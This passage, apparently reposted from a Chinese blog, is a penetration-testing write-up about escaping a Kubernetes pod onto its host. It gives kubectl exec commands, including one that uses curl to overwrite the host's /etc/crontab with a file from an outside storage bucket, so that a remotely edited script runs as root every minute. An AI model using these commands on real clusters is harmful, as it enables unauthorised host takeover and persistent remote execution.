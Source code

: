 OK，挂上来了

<img width="1000" src="/img/1686307292.png"><br>

`df -T` 看看，一堆布拉布拉的盘

<img width="1000" src="/img/1686307321.png"><br>

到了这，要么利用计划任务逃逸，要么写 ssh 密钥，但是现实情况是不能弹 Shell，并且我也没有跳板机，没有做代理。

于是我准备这样搞，思路如下：

计划任务，定时执行 `/mnt/tmp/123.sh` 文件，结果回显到 sectest.result 文件，然后每次需要执行什么命令在 Bucket 桶里修改 123.sh，最后将 123.sh 放到宿主机的 `/tmp/` 目录里去等待执行。

说干就干，在这里，我害怕把这台机器的 Crontab 写坏了，所以我先把宿主机的 Crontab 备份了一份，以防万一。

<img width="1000" src="/img/1686307419.png"><br>

然后第一步就有问题了，echo 写计划任务写不进去

```bash
./kubectl -n namespace exec test -- echo -e '* * * * * root bash /tmp/123.sh\n' >>/mnt/etc/crontab
```

<img width="1000" src="/img/1686307466.png"><br>

于是找了一份相同的 Crontab，本地添加计划任务后，使用 curl 命令直接 -o 覆盖宿主机的 Crontab 文件，成功。

```bash
./kubectl -n namespace exec test -- curl http://xxxx.oss/crontab -o /mnt/etc/crontab
```

<img width="1000" src="/img/1686307571.png"><br>

<img width="1000" src="/img/1686307587.png"><br>

接着第二步，下载内容为 `ifconfig >> /tmp/sectest.result` 的 123.sh 文件放到宿主机的 tmp 目录下，图上的 ifconig 都打错了，救命，还好问题不大，后来改回来了，成功。

<img width="1000" src="/img/1686307670.png"><br>

第三步，等待查看执行结果，成功。

大概看了一下，乱七八糟的物理、虚拟网卡有二三十个

<img width="800" src="/img/1686307734.png"><br>

到了这，又要开始新的一轮渗透了，一个大内网在等着我，具体情况下回再分解～

<div align=center><img width="800" src="/img/1686307762.jpeg"></div>

> 原文地址：[RCE进入内网接管k8s并逃逸进xx网-实战科普教程(一)](https://mp.weixin.qq.com/s/UvjKHaVzhluc22trF46uBA)


<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2023 年 6 月 9 日"
    }
  }
</script>